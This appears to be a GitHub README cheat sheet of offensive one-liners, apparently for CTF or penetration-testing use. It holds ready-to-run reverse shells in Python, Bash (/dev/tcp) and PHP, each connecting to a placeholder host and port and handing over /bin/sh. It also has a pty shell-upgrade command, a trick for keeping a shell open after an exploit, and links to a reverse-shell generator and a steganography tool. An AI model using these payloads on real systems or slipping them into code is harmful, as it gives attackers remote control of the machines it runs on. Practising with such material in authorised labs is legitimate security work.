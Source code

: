 
# Useful Scripts & Commands 🧰

## Scripts:

- [Revshell generator](https://github.com/AmitNiz/useful_stuff/blob/master/scripts/revshell_generator.py)
- [lsb stegnography tool](https://github.com/AmitNiz/useful_stuff/blob/master/scripts/simple_lsb_steg.py)

## Commands:

### Python 

- Convert numbers into a string in hex format (0x prefix with zero padding): `"{:#04x}.format(n)"`

- Print an address in little endian:
      
       python -c "import struct; print(struct.pack('<I',0xdeadbeef))"


- Oneline python revshell:


      python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{HOST_IP}",{PORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
        
- Shell upgrade: 

      python -c "import pty;pty.spawn('/bin/bash')"

### Bash

- Maintain shell after running an exploiting: `(./exploit ; cat ) | ./vuln`
- Simple Bash revshell: 
    
      bash -i >& /dev/tcp/{HOST_IP}/{PORT} 0>&1

### PHP

- Oneline revshell: 

      php -r '$sock=fsockopen("{HOST_IP}",{PORT});exec("/bin/sh -i <&3 >&3 2>&3");'
